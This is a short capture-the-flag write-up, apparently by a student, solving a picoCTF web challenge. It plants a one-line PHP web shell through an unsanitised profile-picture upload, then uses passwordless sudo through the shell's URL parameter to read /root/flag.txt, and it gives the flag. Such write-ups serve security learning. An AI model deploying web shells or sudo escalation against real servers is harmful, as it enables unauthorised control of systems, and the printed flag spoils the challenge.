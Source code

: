 Bashar Masalha 324923689
n0s4n1ty 1
Description: 
![image](https://github.com/user-attachments/assets/aed39180-d3b9-4ae3-a41e-577c86b04e9a)

Hints:
1.File upload was not sanitized
2.Whenever you get a shell on a remote machine, check sudo -l

How to Solve it:
we have a website that has a functionality of uploading profile pictures.
the first thing i noticed that the and file can be uploaded (txt,pdf ..)
so i created a php file called it goto.php.
the php file had this command: <?php system($_GET['cmd']); ?>
i uploaded the file into the page. 
each time we upload a file, the page responds with the path where the file was saved.
so after i uploaded the php file i got the path where it was saved to, so i visited that path and got to a page that was written on it : www-data.
it means we can excute commands on the target.
i ran sudo -l as hinted in the mission. and got this:
![image](https://github.com/user-attachments/assets/9f11e7ae-18fd-4a86-bab1-13777a037013)
it means the root can run commands with no password needed, 
i entered this url : http://standard-pizzas.picoctf.net:57929/uploads/goto.php?cmd=sudo%20ls%20/root, and to a page where it said flag.txt:
![image](https://github.com/user-attachments/assets/ca582297-db0f-4d96-94a2-dc5cd8375d65)

so i entered: http://standard-pizzas.picoctf.net:57929/uploads/goto.php?cmd=sudo%20cat%20/root/flag.txt
and finally got the flag:
![image](https://github.com/user-attachments/assets/2795499d-aca6-4347-b9bc-6f6c808644ab)

the flag: picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}
